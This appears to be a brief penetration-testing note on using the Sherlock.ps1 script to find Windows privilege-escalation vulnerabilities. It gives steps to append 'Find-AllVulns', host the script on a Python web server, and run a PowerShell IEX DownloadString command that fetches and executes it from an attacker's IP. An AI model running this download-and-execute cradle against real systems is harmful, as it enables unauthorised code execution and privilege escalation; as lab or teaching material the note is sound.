

check all function in sherlock.ps1
grep -i function Sherlock.ps1
add "Find-AllVulns" in the end of Sherlock.ps1 so that function would be execute.
then call the Sherlock.ps1
1. setup python http server
2. execute
powershell.exe IEX(New-Object Net.WebClient).downloadString('http://<ip attacker>/Sherlock.ps1")
sample:
